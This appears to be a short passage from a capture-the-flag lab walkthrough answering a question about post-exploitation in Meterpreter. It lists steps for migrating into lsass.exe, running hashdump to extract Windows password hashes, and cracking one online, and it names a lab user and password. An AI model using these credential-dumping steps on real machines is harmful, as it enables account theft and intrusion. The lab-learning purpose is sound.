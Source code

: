 **Within our elevated meterpreter shell, run the command 'hashdump'. This will dump all of the passwords on the machine as long as we have the correct privileges to do so. What is the name of the non-default user?**
- Invoke `ps` to view all processes running on the **target machine**
- Look for `lsass.exe` PID which holds hashes for authorized users
- `Migrate <PID of lsass.exe` 
- `hashdump`
- Retrieve HASH -> Cracker Online -> `alqfna22`, User: `jon`


